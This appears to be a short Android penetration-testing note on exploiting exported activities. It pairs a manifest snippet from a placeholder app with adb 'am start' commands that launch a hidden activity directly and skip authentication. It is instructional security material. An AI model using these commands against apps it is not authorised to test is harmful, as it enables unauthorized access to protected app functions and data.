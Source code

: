 # Exploiting exported Activities

If an activity involving sensitive information is exported, it could potentially bypass authentication mechanisms, allowing unauthorized access.

```sh
adb shell am start -n com.example.demo/com.example.demo.MainActivity
```

You need to start the activity with the intent filtered declared:

```xml
<activity android:name="com.example.demo.HiddenActivity" android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.QUICK_VIEW"/>
        <category android:name="android.intent.category.INFO"/>
    </intent-filter>
</activity>
```

```
adb shell am start -n com.example.demo/.HiddenActivity -a android.intent.action.QUICK_VIEW -c android.intent.category.INFO
```
